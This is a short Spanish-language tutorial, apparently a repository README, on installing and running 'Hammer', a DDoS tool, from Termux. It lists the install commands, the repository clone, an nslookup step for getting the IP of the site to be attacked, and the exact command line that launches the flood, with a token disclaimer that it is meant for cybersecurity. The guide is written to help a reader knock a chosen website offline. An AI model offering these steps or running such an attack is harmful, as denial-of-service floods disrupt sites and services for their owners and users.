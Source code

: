 Como usar Hammer?
<p>
Hammer es una herramienta que te permitira hacer ataques DDos en termux, con el fin de ciberseguridad y nunca<br>
con fines malintencionados, para instalar Hammer en terminal:<br>

$ apt update<br>
$ apt upgrade<br>
$ apt install python<br>
$ apt install git<br>
$ apt install dnsutils<br>
$ git clone https://github.com/Jose21NC/Hammer/

Hammer necesita la <b>Direccion IP</b>Del sitio que quieres atacar...<br>
Para obtenerlo...escribe<br>
$ <b>nslookup nombredelsitio.com<b><br>
Luego de Obtener la IP<br>

Para hacer el ataque<br>
$ cd Hammer<br>
$ python hammer.py -s [Direccion IP] -t 135<br>
Ejemplo:<br>
$ python hammer.py -s 123.45.67.89 -t 135<br>

Tutorial en video:
Aun no disponible, lo estare subiendo en unos dias
